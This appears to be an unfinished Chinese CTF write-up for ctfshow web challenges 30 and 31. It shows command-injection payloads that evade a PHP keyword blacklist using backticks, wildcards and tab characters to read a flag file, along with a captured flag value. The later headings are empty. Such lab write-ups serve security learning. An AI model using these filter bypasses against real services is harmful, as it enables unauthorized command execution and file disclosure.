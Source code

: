 # ctfshow-web-wp

## web入门

### 命令执行

>web30

过滤system,cat(不知道为啥),flag,php
``````
?c=`echo tac fla?.?hp`

?c=`echo nl fla?.?hp`
``````

?可以随意放，只要能绕过过滤

>web31

过滤这些：/flag|system|php|cat|sort|shell|\.| |\'/i  
flag,system,cat,sort,shell,.,'

执行命令可以用`,passthru  
输出文件可以用tac,nl
空格好像不能用%20绕过，要用%09之类的
其他字符用*和?绕过


?c=echo`tac%09fla???hp`;

flag:ctfshow{7557e913-fc46-4835-85a0-008dd4ac63e2}

>web32



>web33

>web

>web

>web

>web

>web

>web

>web

>web

>web

>web

>web